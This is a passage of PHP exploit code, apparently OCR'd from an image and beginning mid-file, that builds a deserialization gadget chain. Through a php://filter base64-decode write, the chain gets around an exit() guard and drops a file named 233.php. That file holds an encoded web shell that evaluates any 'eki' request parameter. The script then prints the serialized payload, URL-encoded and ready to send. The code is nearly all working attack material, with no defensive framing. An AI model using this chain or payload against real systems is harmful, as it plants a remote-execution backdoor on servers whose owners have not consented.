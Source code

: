 ```php
    }
    
    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }
}

class B {
    public $options;

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null) {
        
        $expire = $this->getExpireTime($expire);

        $data = $this->serialize($value);

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        echo base64_decode($data);

        return null;
    }
}


$a = new A;
$a->autosave=false;

$b=new B;
$b->options['expire']=233;
$b->options['data_compress']=false;
$b->options['prefix']="php://filter/write=convert.base64-decode/resource=";
$b->options['serialize']="strval";

$a->construct($b,"233.php");


$object=array("path"=>"PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2VraSddKTs/Pg"); //注意如果base64后存在=要取除，因为是base编码中间的一部分
$a->cache=array("111"=>$object);
$a->complete="2";

//echo $a->save();检验是否能解码成功

echo urlencode(serialize($a));
```
